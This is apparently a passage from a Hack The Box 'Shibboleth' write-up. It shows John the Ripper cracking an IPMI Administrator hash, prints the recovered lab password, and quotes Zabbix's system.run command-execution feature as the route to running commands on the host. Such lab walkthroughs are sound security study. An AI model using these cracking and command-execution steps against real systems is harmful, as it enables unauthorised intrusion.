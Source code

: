 ## JohnTheRipper

We have the Administrators hash and output it to JohnTheRipper format, let's crack it:

```sh
┌──(root💀kali)-[~/htb/shibboleth]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt out.john
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.10.11.124 Administrator)
1g 0:00:00:01 DONE (2021-11-28 17:43) 0.8928g/s 6670Kp/s 6670Kc/s 6670KC/s in_199..iargxe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Zabbix Dashboard

Within a few seconds we have our password. Now we can log in to the Zabbix dashboard:

![shibboleth-dashboard](/assets/images/2021-12-08-21-51-55.png)

Looking around the dashboard there isn't a lot setup, but searching for an exploit I found a simple method to get command execution in the Zabbix docs [here](https://www.zabbix.com/documentation/current/manual/config/items/itemtypes/zabbix_agent):

```text
system.run[command,<mode>]
Run specified command on the host.
command - command for execution
mode - possible values:
wait - wait end of execution (default),
nowait - do not wait

Example:
⇒ system.run[ls -l /] → detailed file list of root directory.
```
